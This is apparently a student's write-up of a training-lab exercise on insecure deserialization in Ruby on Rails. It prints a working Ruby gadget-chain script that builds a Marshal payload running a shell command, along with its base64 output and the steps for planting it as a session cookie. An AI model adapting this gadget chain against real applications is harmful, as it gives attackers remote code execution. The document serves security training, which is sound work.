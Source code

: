 *This lab uses a serialization-based session mechanism and the Ruby on Rails framework. There are documented exploits that enable remote code execution via a gadget chain in this framework.
To solve the lab, find a documented exploit and adapt it to create a malicious serialized object containing a remote code execution payload. Then, pass this object into the website to delete the morale.txt file from Carlos's home directory.
You can log in to your own account using the following credentials: wiener:peter*

Noticed following issue from the scan:
![Screenshot 2024-05-31 at 3.12.11 PM](images/Screenshot%202024-05-31%20at%203.12.11%20PM.png)

Found a script from https://devcraft.io/2021/01/07/universal-deserialisation-gadget-for-ruby-2-x-3-x.html (the final code) and modified to such:
```ruby 
# Autoload the required classes
Gem::SpecFetcher
Gem::Installer
require "base64"

# prevent the payload from running when we Marshal.dump it
module Gem
  class Requirement
    def marshal_dump
      [@requirements]
    end
  end
end

wa1 = Net::WriteAdapter.new(Kernel)

rs = Gem::RequestSet.allocate
rs.instance_variable_set('@sets', wa1)
rs.instance_variable_set('@git_set', "rm /home/carlos/morale.txt")

wa2 = Net::WriteAdapter.new(rs)

i = Gem::Package::TarReader::Entry.allocate
i.instance_variable_set('@read', 0)
i.instance_variable_set('@header', "aaa")


n = Net::BufferedIO.allocate
n.instance_variable_set('@io', i)
n.instance_variable_set('@debug_output', wa2)

t = Gem::Package::TarReader.allocate
t.instance_variable_set('@io', n)

r = Gem::Requirement.allocate
r.instance_variable_set('@requirements', t)

payload = Marshal.dump([Gem::SpecFetcher, Gem::Installer, r])
puts Base64.encode64(payload)
```
I made a few changes:
1. added the module `base64`
2. removed the second argument in each of the `Net::WriteAdapter.new()`
3. changed the `id` to `rm /home/carlos/morale.txt`
4. deleted the last 2 lines and added the line `puts Base63/encode64(payload)`
Ran the script and received the following output:'
```console
BAhbCGMVR2VtOjpTcGVjRmV0Y2hlcmMTR2VtOjpJbnN0YWxsZXJVOhVHZW06
OlJlcXVpcmVtZW50WwZvOhxHZW06OlBhY2thZ2U6OlRhclJlYWRlcgY6CEBp
b286FE5ldDo6QnVmZmVyZWRJTwc7B286I0dlbTo6UGFja2FnZTo6VGFyUmVh
ZGVyOjpFbnRyeQc6CkByZWFkaQA6DEBoZWFkZXJJIghhYWEGOgZFVDoSQGRl
YnVnX291dHB1dG86Fk5ldDo6V3JpdGVBZGFwdGVyBjoMQHdyaXRlcm86FEdl
bTo6UmVxdWVzdFNldAc6CkBzZXRzbzsOBjsPbQtLZXJuZWw6DUBnaXRfc2V0
SSIfcm0gL2hvbWUvY2FybG9zL21vcmFsZS50eHQGOwxU
```
Removed the `\n` and `\r` with the following command:
```console
┌──(roshan㉿roshan)-[~/Courses/bscp/insecure_deserialization]
└─$ echo "BAhbCGMVR2VtOjpTcGVjRmV0Y2hlcmMTR2VtOjpJbnN0YWxsZXJVOhVHZW06        
OlJlcXVpcmVtZW50WwZvOhxHZW06OlBhY2thZ2U6OlRhclJlYWRlcgY6CEBp
b286FE5ldDo6QnVmZmVyZWRJTwc7B286I0dlbTo6UGFja2FnZTo6VGFyUmVh
ZGVyOjpFbnRyeQc6CkByZWFkaQA6DEBoZWFkZXJJIghhYWEGOgZFVDoSQGRl
YnVnX291dHB1dG86Fk5ldDo6V3JpdGVBZGFwdGVyBjoMQHdyaXRlcm86FEdl
bTo6UmVxdWVzdFNldAc6CkBzZXRzbzsOBjsPbQtLZXJuZWw6DUBnaXRfc2V0
SSIfcm0gL2hvbWUvY2FybG9zL21vcmFsZS50eHQGOwxU" | tr -d "\n\r"
```
This was the output:
```console 
BAhbCGMVR2VtOjpTcGVjRmV0Y2hlcmMTR2VtOjpJbnN0YWxsZXJVOhVHZW06OlJlcXVpcmVtZW50WwZvOhxHZW06OlBhY2thZ2U6OlRhclJlYWRlcgY6CEBpb286FE5ldDo6QnVmZmVyZWRJTwc7B286I0dlbTo6UGFja2FnZTo6VGFyUmVhZGVyOjpFbnRyeQc6CkByZWFkaQA6DEBoZWFkZXJJIghhYWEGOgZFVDoSQGRlYnVnX291dHB1dG86Fk5ldDo6V3JpdGVBZGFwdGVyBjoMQHdyaXRlcm86FEdlbTo6UmVxdWVzdFNldAc6CkBzZXRzbzsOBjsPbQtLZXJuZWw6DUBnaXRfc2V0SSIfcm0gL2hvbWUvY2FybG9zL21vcmFsZS50eHQGOwxU                   
```
URL encoded it, replaced the cookie in the login request and issued the request to solve the lab. 
